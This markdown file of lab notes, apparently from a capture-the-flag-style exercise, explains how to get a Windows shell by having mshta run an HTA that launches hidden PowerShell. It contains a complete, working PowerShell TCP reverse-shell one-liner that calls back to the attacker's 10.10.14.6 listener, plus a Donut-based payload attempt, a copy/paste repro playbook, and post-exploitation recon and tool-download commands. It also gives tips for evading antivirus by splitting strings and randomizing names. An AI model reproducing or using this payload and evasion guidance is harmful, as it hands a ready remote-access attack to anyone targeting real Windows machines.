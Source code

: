 # HTA → PowerShell Reverse Shell (Lab Notes)

**Goal:** Obtain a shell on a Windows target with legacy Windows Defender (circa 2020) by delivering and executing a payload that bypasses static signatures.
Can be used for intial shell.
---

## Environment & Constraints
- Target: Windows (likely x64), legacy Defender signatures.
- Attacker: Kali-like Linux VM (tun0: `10.10.14.6`).
- Egress uncertainty (443/80/8080/53).
- Disk space constraints on attacker box → built/served from `/dev/shm`.
- Initial payload: `smb.exe` (x86) → Donut → `shell.ps1`.
- Delivery: `.hta` executed via `mshta`.

---

## Attempt A (Donut + HTA) — **Delivered, no session**
**What we did**
1. Donut on x86 binary (kept 32-bit):
   ```bash
   donut -i smb.exe -f 6 -a 1 -e 3 -b 3 -o shell.ps1
   ```
2. Served files:
   ```bash
   cd /dev/shm && python3 -m http.server 80
   ```
3. HTA wrapper (forced 32-bit PS to match x86 shellcode):
   ```html
   <html><head><script language="VBScript">
   Dim cmd
   cmd = "%windir%\SysWOW64\WindowsPowerShell1.0\powershell.exe -nop -w hidden -ep bypass -c ""IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.6/shell.ps1')"""
   CreateObject("Wscript.Shell").Run cmd,0
   </script></head><body></body></html>
   ```
4. Triggered:
   ```powershell
   mshta http://10.10.14.6/policy_2025.hta
   ```

**What we observed**
- HTTP server logs showed:
  - `GET /policy_2025.hta` (HTA executed)
  - `GET /shell.ps1` (PS downloaded Donut script)
  - Instrumented canaries confirmed 32‑bit PS, bytes downloaded, and post‑`IEX` reached.
- **No callback** to Metasploit (likely staging/arch/payload mismatch or egress filter).

**Key gotchas identified**
- PowerShell `-enc` expects **UTF‑16LE** base64, not UTF‑8.
- x86 shellcode must run under **SysWOW64** PowerShell on x64 hosts.
- Staged Meterpreter often flagged/blocked; handler/payload must match exactly (arch + staged/stageless + protocol).

---

## Working Approach B (Raw PS TCP reverse shell) — **Success**
We pivoted away from Meterpreter/Donut and used a minimal PowerShell reverse TCP one‑liner embedded directly in an HTA.

### 1) Listener (attacker)
```bash
rlwrap nc -lvnp 443
```

### 2) HTA (served from `/dev/shm/rs.hta`)
```html
<html><head><script language="VBScript">
Dim cmd
cmd = "%windir%\SysWOW64\WindowsPowerShell1.0\powershell.exe -nop -w hidden -ep bypass -c ""$null=(iwr http://10.10.14.6/ps_ran_rev);$h='10.10.14.6';$p=443;$c=New-Object Net.Sockets.TCPClient($h,$p);$s=$c.GetStream();$b=New-Object Byte[] 65535;while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=[Text.Encoding]::ASCII.GetString($b,0,$i);try{$o=(iex $d 2>&1|Out-String)}catch{$o=$_.Exception.Message};$o=$o+'PS '+(pwd).Path+'> ';$sb=[Text.Encoding]::ASCII.GetBytes($o);$s.Write($sb,0,$sb.Length)}$c.Close()"""
CreateObject("Wscript.Shell").Run cmd,0
</script></head><body></body></html>
```

> Notes:
> - **SysWOW64** path forces 32‑bit PowerShell (consistent with our earlier x86 payloads).
> - The `iwr ... /ps_ran_rev` HTTP canary gave immediate proof PS started on target.
> - This approach avoids Donut/Meterpreter stagers and their signatures.

### 3) Serve & trigger
```bash
cd /dev/shm && python3 -m http.server 80
mshta http://10.10.14.6/rs.hta?t=1
```

**Result:** `rlwrap nc` received a connection. Commands (e.g., `whoami`) executed interactively.

---

## Verification Artifacts (HTTP server logs)
Typical success sequence:
```
GET /rs.hta?t=1        200
GET /ps_ran_rev        200 (canary; any 200/404 proves PS started)
```
(When using the Donut flow earlier, also saw `GET /shell.ps1` and canaries like `/canary?arch=32`, `/canary?afterIEX`.)

---

## Post‑Exploitation Quick Checks
Run immediately after shell lands:
```powershell
whoami /all
hostname
$env:COMPUTERNAME; $env:USERDOMAIN; $env:USERDNSDOMAIN
ipconfig /all
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
net localgroup administrators
query user
```
Download tools:
```powershell
$wc=New-Object Net.WebClient
$wc.DownloadFile('http://10.10.14.6/tool.exe','C:\Windows\Temp	ool.exe')
```

---

## Why Attempt A failed (most likely)
- **Staging/Signature**: Staged Meterpreter stagers are commonly detected even by 2020 Defender.
- **Handler mismatch**: Any mismatch (x86/x64, http/https, staged/stageless) results in silence.
- **Egress**: Handler port may have been filtered; raw TCP shell on 443 worked reliably.

---

## Disk Space Remediation (attacker)
To recover space quickly:
```bash
rm -rf ~/.msf4/{loot,logs,bootsnap_cache}/*
rm -rf ~/.nuget/packages/*
sudo apt clean && sudo apt autoremove --purge -y
sudo journalctl --vacuum-time=3d
find ~/Covenant -type d \( -name bin -o -name obj -o -name publish \) -prune -exec rm -rf {} +
```
Build artifacts in RAM to avoid future ENOSPC:
```bash
export TMPDIR=/dev/shm
cd /dev/shm
```

---

## Repro Playbook (copy/paste)
```bash
# 1) Listener
rlwrap nc -lvnp 443

# 2) Create HTA
cat > /dev/shm/rs.hta <<'HTA'
<html><head><script language="VBScript">
Dim cmd
cmd = "%windir%\SysWOW64\WindowsPowerShell1.0\powershell.exe -nop -w hidden -ep bypass -c ""$null=(iwr http://10.10.14.6/ps_ran_rev);$h='10.10.14.6';$p=443;$c=New-Object Net.Sockets.TCPClient($h,$p);$s=$c.GetStream();$b=New-Object Byte[] 65535;while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=[Text.Encoding]::ASCII.GetString($b,0,$i);try{$o=(iex $d 2>&1|Out-String)}catch{$o=$_.Exception.Message};$o=$o+'PS '+(pwd).Path+'> ';$sb=[Text.Encoding]::ASCII.GetBytes($o);$s.Write($sb,0,$sb.Length)}$c.Close()"""
CreateObject("Wscript.Shell").Run cmd,0
</script></head><body></body></html>
HTA

# 3) Serve
cd /dev/shm && python3 -m http.server 80

# 4) Trigger on target
# mshta http://10.10.14.6/rs.hta?t=1
```

---

## Optional Hardening/OPSEC
- Randomize variable/class names and split suspicious strings (e.g., 'Net.Sock'+'ets.TCP'+'Client').
- Use allowed egress port (443/80/8080/53), validated by `tcpdump`.
- After you’re in, consider pivoting to a more feature‑rich agent over the same egress port.

---

*These notes are for lab/education use only, matching the environment you controlled in this exercise.*
